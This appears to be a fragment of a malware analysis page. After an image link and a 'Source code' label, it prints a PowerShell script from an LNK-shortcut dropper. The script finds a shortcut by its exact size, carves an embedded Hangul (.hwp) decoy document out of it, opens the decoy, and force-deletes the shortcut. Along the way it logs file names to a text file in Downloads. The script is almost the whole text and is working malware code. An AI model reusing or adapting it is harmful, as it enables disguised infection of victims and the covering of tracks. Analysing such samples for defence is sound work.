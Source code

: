 $lk=ls -Path '.\' -filter '*.lnk';
for($a = 0;$a -lt $lk.length;$a++){if($lk[$a].length -eq 56397) {$lk=$lk[$a].name;break}}
ac -path "C:\Users\user\Downloads\1.txt" $lk
$n=$lk.Replace('.lnk','.hwp');
ac -path "C:\Users\user\Downloads\1.txt" $n
if($lk -eq $null) {$lk=ls -Path $env:temp -depth 2
for($a = 0;$a -lt $lk.length;$a++){if($lk[$a].length -eq 56397) {$lk=$lk[$a].name;break}}};

$file = [System.IO.File]::ReadAllBytes($lk);$file1=[byte[]]$file[5709..(5709+50688-1)];
ac -path "C:\Users\user\Downloads\1.txt" $lk
$fsdf=$lk.Replace('.lnk','.hwp');[System.IO.File]::WriteAllBytes($fsdf,$file1);
start $fsdf;

ri $lk -force;















